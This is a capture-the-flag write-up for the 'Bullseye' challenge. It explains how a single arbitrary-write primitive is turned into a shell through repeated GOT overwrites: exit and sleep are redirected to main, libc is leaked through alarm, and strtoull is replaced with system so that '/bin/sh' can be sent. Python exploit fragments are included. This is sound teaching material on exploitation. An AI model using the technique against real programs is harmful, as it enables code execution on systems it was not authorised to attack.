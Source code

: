 # H@cktivityCon CTF 2020 `Bullseye` Writeup
Category Binary Exploitation  
Points: 150

## Description
```
You have one shot, don't miss.
```
_Couldn't find the actual description, so this is just the first line the binary prints_

---
 
 Where I learn about overwriting the GOT to make use of arbitrary writes

 # Recon
 We are given a single binary, `bullseye`

 ```
 > file bullseye
 bullseye: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e1968fcbe7c510329f863f4d6af48643ef947b29, for GNU/Linux 3.2.0, not stripped

 > checksec --file=bullseye
 RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   81) Symbols       No    0               3               bullseye
 ```

 No PIE and Partial Relro, which ends up being important, and no stack canaries, which doesn't really.

When run the binary claims to write an arbitrary value to an arbitrary address. And it will in fact segfault if we try to write to an invalid address.

```
> ./bullseye
You have one write, don't miss.

Where do you want to write to?
0
What do you want to write?
1234
Segmentation fault
```

Lets open it up in ghidra and take a look

```c
void main(void)
{
  ulonglong *pointer;
  ulonglong value;
  char buffer [24];
  
  setup();
  puts("You have one write, don\'t miss.\n");
  puts("Where do you want to write to?");
  read(0,buffer,0x10);
  pointer = (ulonglong *)strtoull(buffer,(char **)0x0,0x10);
  memset(buffer,0,0x10);
  puts("What do you want to write?");
  read(0,buffer,0x10);
  value = strtoull(buffer,(char **)0x0,0x10);
  *pointer = value;
  sleep(0xf);
  printf("%p\n",alarm);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

Does what it says on the tin, except for that little bit at the end. It looks like if
you manage to not segfault on the write and wait 15 seconds, the binary prints the address of the alarm function, which in turn tells us the address of libc. How very kind of it!

Still though, popping a shell with only a single write seems fairly difficult. Especially since the function calls exit and never returns, so a standard ROP is out of the question. It would be nice if we could do more than one write.

## GOT milk?
When binaries are dynamically linked (like this one is) it doesn't know the address of external symbols (such as `exit` or `printf`) at compile time. Instead, the address are resolved at run time.

The way that happens is a complex process with lots of moving parts. The parts that interest us currently are the Procedure Linkage Table (PLT) and Global Offset Table (GOT). They are both areas of memory with a known, static offset to the binary that work together to allow external functions to be called.

When a function in a dynamic library is called (say `printf`), the following process occurs:

1. The call the `printf` is actually a call to `print@plt`, the index of `printf` in the PLT.
2. The first instruction at `printf@plt` is an indirect jump to the address stored at `printf@got`
3. If `printf` has been called before the offset has been loaded, so the jump points directly to the real `printf` and we are done.
4. Otherwise, the jump ends up calling the dynamic linker, which resolves the address of the real `printf` and patches up `printf@got` to point directly to it.

The GOT is writable by necessity, as the linker needs to update entries at runtime. And since we know the address of the GOT (the binary isn't position independent), we can overwrite one of the entries to an address of our choosing. Then, the next time that function gets called, execution will be directed to that address! (Note this is there the binary being marked as Partial RELRO matters. If the binary is marked as Full RELRO, all of the PLT entries are resolved at load time, and the pages of memory are marked as read only, mitigating this attack.)

So what function to choose, and where should we go? well like I said in the beginning, it sure would be nice if we could write more than once. Well, what if, when exit was called at the end of the function, execution was instead redirected back to the beginning of main?

```python
write_quad_where(stream, e.symbols["main"], e.got["exit"]) # loop on exit
```

Make sure to grab the address of `alarm` as it goes by:

```python
alarm_addr = int(stream.recvline(), base=16)
libc.address = alarm_addr - libc.symbols["alarm"]
```

Great, now we have an infinite loop. As many writes as we want. That 15 second pause was pretty annoying though. Now that we have the address of libc, we can set `sleep` to redirect execution back to `main` as well:

```python
write_quad_where(stream, e.symbols["main"], e.got["sleep"]) # loop on sleep
```

Now that we don't have to wait again, we can get on to calling `system`. The trick here is we need control over the arguments, so we can pass the requisite "/bin/sh". The easiest function is `strtoull`

```python
write_quad_where(stream, libc.sym["system"], e.got["strtoull"]) # replace strtoull with system
```

Once that's finished, the next call to `strtoull` (which will have a pointer to the string we just entered as it's first argument) will be redirected to `system` instead.

```python
stream.sendline("/bin/sh")
```

## Flag

The full exploit is available in `bullseye.py`

```
> cat flag.txt
flag{one_write_two_write_good_write_bad_write}
```

_Fin._